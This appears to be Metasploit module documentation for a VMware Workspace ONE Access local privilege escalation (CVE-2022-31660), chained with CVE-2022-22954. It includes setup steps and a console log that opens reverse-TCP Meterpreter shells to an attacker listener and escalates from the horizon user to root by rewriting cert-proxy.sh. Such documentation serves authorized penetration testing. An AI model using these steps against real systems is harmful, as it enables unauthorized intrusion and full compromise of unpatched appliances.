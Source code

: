 ## Vulnerable Application
VMware Workspace ONE Access contains a vulnerability whereby the horizon user can escalate their privileges to those of
the root user by modifying a file and then restarting the vmware-certproxy service which invokes it. The service control
is permitted via the sudo configuration without a password.

### Setup

To exploit this vulnerability in conjunction with CVE-2022-22954, follow [Installing and Configuring VMware Workspace
ONE Access] or simply import the OVA into a **VMware hypervisor**. The target should be vulnerable to both
vulnerabilities out of the box.

The HW-150533, HW-154129, and HW-156875 patches may be optionally applied. In this case, a session will need to be
opened by some means to the appliance as the `horizon` user in order to be exploitable. This is most easily accomplished
by [resetting the root password], logging in locally, and then configuring SSH. Patches can be obtained from [VMware's
Website]. Steps to reset the `root` password are available [here].

[Installing and Configuring VMware Workspace ONE Access]: https://docs.vmware.com/en/VMware-Workspace-ONE-Access/21.08/workspace_one_access_install/GUID-0FABD001-050B-4A54-B100-2FA4E8F55613.html
[VMware's Website]: https://customerconnect.vmware.com/en/downloads/details?downloadGroup=WS1A_ONPREM_210801&productId=1192&rPId=79985
[resetting the root password]: https://kb.vmware.com/s/article/76530

## Verification Steps

1. Setup a vulnerable VMware instance (see the steps above).
2. Start msfconsole.
3. Obtain a session on the vulnerable instance.
    * It is recommend to use either `exploit/linux/http/vmware_workspace_one_access_cve_2022_22954` if the target is
      vulnerable to it or, alternatively, `exploit/multi/ssh/sshexec`.
4. Do: `set SESSION -1`
5. Optionally set the PAYLOAD and related options.
6. Do: `run`
7. If the target is vulnerable, the payload should be executed.

## Options

## Scenarios

### VMware Workspace ONE Access 21.08.0.1
In the following scenario, initial access is gained by first exploiting CVE-2022-22954. Once the session is opened, it
is elevated to root by exploiting CVE-2022-31660.

```
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > show options 

Module options (exploit/linux/http/vmware_workspace_one_access_cve_2022_22954):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.98   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.98
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.98:42312) at 2022-08-02 16:26:16 -0400

meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: horizon
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > use exploit/linux/local/vmware_workspace_one_access_certproxy_lpe 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > set SESSION -1
SESSION => -1
msf6 exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > run

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Backing up the original file...
[*] Writing '/opt/vmware/certproxy/bin/cert-proxy.sh' (601 bytes) ...
[*] Triggering the payload...
[*] Sending stage (40132 bytes) to 192.168.250.237
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 192.168.250.237:63493) at 2022-08-02 16:26:57 -0400
[*] Restoring file contents...
[*] Restoring file permissions...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
